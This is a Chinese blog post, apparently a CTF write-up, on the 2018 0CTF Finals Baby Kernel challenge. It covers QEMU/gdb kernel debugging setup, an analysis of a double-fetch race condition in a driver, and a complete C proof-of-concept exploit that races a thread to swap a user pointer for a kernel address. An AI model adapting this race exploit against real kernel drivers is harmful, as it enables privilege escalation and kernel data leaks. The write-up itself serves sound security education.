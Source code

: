 ```yaml
---
layout:     post
title:      kernel pwn入门之路（更新中）
subtitle:   入门kernelpwn的例题
date:       2020-10-22
author:     X1ng
header-img: kernel.jpg
catalog: true
tags:
    - kernel pwn
    - wp

---
```


根据[钞sir师傅的博客](https://blog.csdn.net/qq_40827990/article/details/97036109)入门内核pwn的笔记

搭建好环境后复现例题

## gdb调试的栗子

1. 在当前目录下配置.gdbinit文件，设置

    ```shell
    vim .gdbinit
    ```

    在里面写上

    ```
    set architecture i386:x86-64
    ```

2. start.sh

    ```shell
    qemu-system-x86_64 \
    -m 256M -smp 2,cores=2,threads=1  \
    -kernel ./vmlinuz-4.15.0-22-generic \
    -initrd  ./rootfs.img \
    -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet" \
    -cpu qemu64 -netdev user,id=t0, \
    -device e1000,netdev=t0,id=nic0 \
    -nographic \
    -gdb tcp::1234
    ```

    查看驱动的地址

    ```
    / # lsmod
    baby 16384 0 - Live 0xffffffffc031d000 (OE)
    ```

3. 打开gdb

    ```
    gdb
    add-symbol-file ./baby.ko 0xffffffffc031d000 #附加驱动，让gdb对命令的反应速度快点
    target remote :1234
    ```

    （但是我在add-symbol-file之后gdb的反应速度依然慢）

> 关于驱动在内核态的调试方法应该是安装驱动，对相应函数下断,运行poc,然后才可以断下来调试,和我们在用户态直接调试程序其实就是多了一个运行poc,其他方法都差不多的…



## 2018 0CTF Finals Baby Kernel

### Double Fetch漏洞原理

Double Fetch漏洞属于条件竞争漏洞，一个用户态线程准备的数据通过系统调用进入内核，进入内核的时候进行安全检查（比如缓冲区大小、指针可用性等），当检查通过后进行实际处理之前，另一个用户态线程可以创造条件竞争，对那个已经将通过了检查的用户态数据进行篡改，使得数据在真实使用时造成访问越界或缓冲区溢出，最终导致内核崩溃或权限提升

### 程序逻辑分析

ida打开驱动程序baby.ko

![](https://tva1.sinaimg.cn/large/0081Kckwly1gjz181zxl5j31db0u0tjs.jpg)

可以看到if语句的两个分支，第一个分支可以输出flag的地址，第二个分支有两个检查，检查通过则与内存中flag逐字节对比，全部一致则输出flag

双击flag可以直接在内存中看到flag，，但是复现的主要目的是学习Double Fetch漏洞，所以需要绕过检查来让程序打印出flag

![](https://tva1.sinaimg.cn/large/0081Kckwly1gjy5t0fkdoj31na04wwfa.jpg)

检查函数如下

![](https://tva1.sinaimg.cn/large/0081Kckwly1gjy5tdu7tyj31db0u045w.jpg)

函数逻辑是判断a1+a2是否小于a3，小于a3返回0，通过检查

通过`*(_QWORD *)v5`和`*(_DWORD *)(v5 + 8) == strlen(flag)`我们很容易推出v5这个结构体包含的是一个flag的地址及其长度，为了与内核中的flag区分，这里记为flag1

```c
struct v5{
    char *flag1;
    size_t len;
};
```

用gdb调试发现，作为__chk_range_not_ok函数的第三个参数的是`0x7ffffffff000`

![](https://tva1.sinaimg.cn/large/0081Kckwly1gjz0xghsr3j31eq06g74v.jpg)

可以推测该函数用来判断前面两个参数的数据指针是否为用户态数据（因为如果可以是内核态数据的话，就可以让`v5->flag1 = flag`，直接通过后面的比较操作，从而打印出flag）

### 漏洞分析

漏洞在于 对v5的地址是否在内核中的检查 和 让flag1和flag逐字节比较 两个操作不是一个原子操作，也就是说可以在 对v5地址是否在内核中的检查 之后，在 让flag1和flag逐字节比较 之前将`v5->flag1`中的地址改成内核中的flag的地址，通过验证

所以思路就是先利用驱动提供的0x6666分支，获取内核中flag的加载地址（这个地址可以通过dmesg命令查看）；然后构造一个符合0x1337分支的数据结构，其中len可以从ida中`.data`上直接数出来为33，此时的`v5->flag1`指向一个用户空间地址；再调用`pthread_create`创建一个恶意线程,不断的将flag1所指向的用户态地址修改为内核中的flag地址以制造竞争条件,从而使其通过驱动中的逐字节比较检查,输出flag内容

---

```c
int pthread_create(pthread_t *tidp, const pthread_attr_t *attr, void *(*start_rtn)(void *), void *arg);
```

第一个参数为指向线程[标识符](https://baike.baidu.com/item/标识符)的[指针](https://baike.baidu.com/item/指针)。

第二个参数用来设置线程属性。

第三个参数是线程运行函数的起始地址。

最后一个参数是运行函数的参数。

栗子：

```c
#include <pthread.h>

void change_flag_addr(void *a){
    struct v5 *s = a;
    while(finish == 1){
        s->flag = flag_addr;
    }
}

int main()
{
	struct v5 t;
	pthread_t t1;
	pthread_create(&t1,NULL,change_flag_addr,&t); 
}

```



---

贴一下钞sir师傅的poc：

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <pthread.h>

unsigned long long flag_addr;
int Time = 1000;
int finish = 1;

struct v5{
    char *flag;
    size_t len;
};

//change the user_flag_addr to the kernel_flag_addr
void change_flag_addr(void *a){
    struct v5 *s = a;
    while(finish == 1){
        s->flag = flag_addr;
    }
}

int main()
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    pthread_t t1;
    char buf[201]={0};
    char m[] = "flag{AAAA_BBBB_CC_DDDD_EEEE_FFFF}";     //user_flag
    char *addr;
    int file_addr,fd,ret,id,i;
    struct v5 t;
    t.flag = m;
    t.len = 33;
    fd = open("/dev/baby",0);
    ret = ioctl(fd,0x6666);
    system("dmesg | grep flag > /tmp/sir.txt");     //get kernel_flag_addr
    file_addr = open("/tmp/sir.txt",O_RDONLY);
    id = read(file_addr,buf,200);
    close(file_addr);
    addr = strstr(buf,"Your flag is at ");
    if(addr)
        {
            addr +=16;
            flag_addr = strtoull(addr,addr+16,16);
            printf("[*]The flag_addr is at: %p\n",flag_addr);
        }
    else
    {
            printf("[*]Didn't find the flag_addr!\n");
            return 0;
    }
    pthread_create(&t1,NULL,change_flag_addr,&t);   //Malicious thread
    for(i=0;i<Time;i++){
        ret = ioctl(fd,0x1337,&t);
        t.flag = m;     //In order to pass the first inspection
    }
    finish = 0;
    pthread_join(t1,NULL);
    close(fd);
    printf("[*]The result:\n");
    system("dmesg | grep flag");
    return 0;
}
```

PS:

>1. 配置QEMU启动参数时,不要开启SMAP保护，否则在内核中直接访问用户态数据会引起kernel panic…
>
>2. 配置QEMU启动参数时，需要配置为非单核单线程启动，不然无法触发poc中的竞争条件,具体操作是在启动参数中增加其内核数选项，如:
>
>    ```shell
>    -smp 2,cores=2,threads=1  \
>    ```

